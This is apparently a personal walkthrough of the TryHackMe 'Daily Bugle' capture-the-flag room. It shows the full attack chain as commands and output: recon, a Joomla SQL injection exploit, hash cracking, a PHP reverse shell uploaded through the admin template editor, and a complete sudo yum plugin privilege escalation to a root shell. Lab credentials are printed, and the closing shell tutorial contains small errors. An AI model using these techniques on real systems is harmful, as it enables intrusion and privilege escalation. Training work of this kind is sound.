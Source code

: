 ### Daily bugle

the [room](https://tryhackme.com/room/dailybugle)


# Starting

ok,let's go start this machine

```bash
export ip=10.10.208.176
echo $ip
```
as always i'll run nmap and i'm going to see if an web server exists

```bash
sudo nmap -sS -p- $ip -T4 -vv
```

ok,they have a web page...let me see what i find while gobuster is running

```bash
gobuster dir -w /usr/share/wordlists/sec-lists/Discovery/Web-Content/directory-list-2.3-big.txt -u $ip -x js,txt,php
```

ok, the web page is about a spider man robing a bank and have a interesting somethings, like a login fields a lot of directories that gobuster found.

the web site uses php and has a lot of parameters that i can try include something evil

this machine use something like Joomla, i don't know what is this but in readme.txt directory is saied a few interesting things.

like that joomla allows extensions :)

the content of robots.txt made me believe that this web server is misconfigured

i can access all of this directories that is in robots.txt file

~~~
Disallow: /administrator/  #login page
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
~~~

a few of this directories doesn't have anything, maybe i can run gobuster to brute force directories in these too,but it's so boring bro

i wanna believe that i won't need to do this

now what i'll do is take a look at all of these :) 

i could find the joomla version

	/administrator/manifests/files/joomla.xml

and the version is in this xml, i found it because i was search about how i would create a script that discover joomla version and i decide to try if this file had read permission :)

looks like this version has a SQL injection and i'm gonna search for an exploit

[exploit that i used](https://github.com/teranpeterson/Joomblah)

```bash
python3 joomblah.py $ip

Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']

```

```bash
john hash wordlist=/usr/share/wordlists/rockyou.txt 
```

after maybe 20 minutes john breaked this hash omg 

user: jonah
password: spiderman123

ok,now i have a administrator account.

i've successfully logged in web page /administrator and it looks like a word press admin panel or something like this

maybe i can update a php reverse shell as template or plugin?

yea,it works. I've updated the code in index.php file of the main template and now i'm inside the machine as apache user

and after this it was easy

i didn't have anything in contrab or suid permissions,any password or somethings like this

i was having a few errors with grep to find something interesting so i did the linpeas and he founds an password on php file, thanks god i'm really was 

$pass = 'nv5uz9r3ZEDzVjNu'

and now

```bash
ssh jjameson@$ip  
```

now as i can the jjameson user and his password i can get the user.txt flag and see if i can do something for privilege escalation

```bash
sudo -l  
```

i can run /usr/bin/yum as sudo :)

```bash
TF=$(mktemp -d) #create a tmp directory and saves in TF variable

cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y #make the yum run y.py as sudo

```

explanation about "cat >$TF/x<<EOF" command

">" this operator outputs to a somewhere
e.g. 

```bash
echo "a" > a.txt
```
the output of echo command will be sended to a.txt file 

in this case cat output is sended to variable $TF/x that is, the temp directory that i created before and a new file that will be created. so,the output of cat command will be sended to x file in tmp directory

"<<" this is different, "here string" it's an way to enter a multiline string until the tag after this operand.

e.g.

```bash
$ cat > test << STOPTAG
> Now i can insert anything i want 
> if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
>  	STOPTAG
> the same thing occours if i put an space before the tag
> but if i put in this form, it's stopped
> STOPTAG

$ echo test
Now i can insert anything i want 
if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
  	STOPTAG
the same thing occours if i put an space before the tag
but if i put in this form, it's stopped
```
so, "cat >" is used to write for what the cat reads from terminal and sends it to test file

a little bit confusing ha

makes more sense when you understand the cat command 

because the cat command works of this way

```bash
cat 

a # your input
a # cat reads and send your output to terminal too

b # your input
b # cat output
```

```bash
$ cat > test2.txt

a # your input
b # your input

$ cat test2.txt
a 
b
```

